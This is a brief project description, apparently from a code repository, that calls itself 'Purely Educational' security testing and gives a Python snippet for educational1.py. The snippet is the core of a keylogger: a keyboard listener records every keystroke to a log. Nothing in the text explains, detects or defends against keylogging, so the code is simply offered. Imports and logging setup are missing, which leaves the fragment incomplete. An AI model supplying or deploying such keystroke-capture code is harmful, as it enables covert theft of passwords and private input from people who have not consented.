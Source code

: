 Purpose of this project is to test the security of computer systems. Purely Educational!

# Code that goes in educational1.py

```py
def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```